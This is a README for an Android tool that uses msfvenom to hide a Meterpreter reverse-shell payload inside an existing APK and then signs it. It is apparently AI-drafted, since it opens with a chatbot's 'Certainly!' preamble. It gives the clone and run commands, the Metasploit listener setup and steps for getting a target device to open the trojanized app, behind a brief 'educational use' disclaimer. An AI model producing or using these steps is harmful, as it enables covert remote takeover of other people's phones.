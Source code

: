 Certainly! Below is a professional README template for your tool. This README explains the purpose of the script, provides usage examples, and guides the user through its functionalities.

---

# Android Payload Generator

**Author:** Declanmidd  
**GitHub:** [github.com/Declanmidd](https://github.com/Declanmidd)

## Overview

The **Android Payload Generator** is a tool designed for educational security purposes. It allows users to generate a malicious Android APK that contains a Meterpreter reverse shell payload. This tool utilizes `msfvenom` to embed the payload into an existing APK, making it useful for penetration testing and security research.

**Disclaimer:** This tool is intended for educational use only. Always ensure you have permission to test the target device.

## Features

- Generates a Meterpreter reverse TCP payload.
- Embeds the payload into an existing APK template.
- Signs the APK for successful installation on Android devices.
- Verifies and aligns the APK for optimal performance.

## Requirements

- **Kali Linux** or a similar distribution with Metasploit installed.
- **Java Development Kit (JDK)** for APK signing.
- **Android SDK** tools, specifically `zipalign`.

## Installation

1. **Clone the repository**:
   ```bash
   git clone https://github.com/declanmidd/stealth
   cd stealth
   ```

2. **Make the script executable**:
   ```bash
   chmod +x generate_apk.sh
   ```

## Usage

### Command Syntax

```bash
./generate_apk.sh <LHOST> <LPORT> <TEMPLATE_APK>
```

### Parameters

- `<LHOST>`: The local IP address that the payload will connect back to.
- `<LPORT>`: The port on which the listener will wait for the incoming connection.
- `<TEMPLATE_APK>`: The path to the existing APK that will be used as a template.

### Example

1. **Start Metasploit** to set up a listener:
   ```bash
   msfconsole
   ```

2. **Set up the listener** in Metasploit:
   ```bash
   use exploit/multi/handler
   set payload android/meterpreter/reverse_tcp
   set LHOST <Your Local IP>
   set LPORT <Your Port>
   exploit
   ```

3. **Run the payload generator script**:
   ```bash
   ./generate_apk.sh 192.168.1.10 4444 /path/to/template.apk
   ```

4. **Install the generated APK (`signed_jar.apk`)** on the target Android device.

5. **Once the target device opens the APK**, you should receive a Meterpreter session in your Metasploit console.

## What the Tool Does

- **Generates Payload**: Uses `msfvenom` to create a Meterpreter payload embedded in a specified template APK.
- **Creates Keystore**: Automatically generates a keystore to sign the APK.
- **Signs the APK**: Ensures that the APK is properly signed for installation on Android devices.
- **Verifies and Aligns**: Confirms that the APK is correctly signed and optimized for performance.

## Important Notes

- **Use Responsibly**: Only use this tool on devices and networks you own or have explicit permission to test.
- **Dependencies**: Ensure all required packages are installed before running the script.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

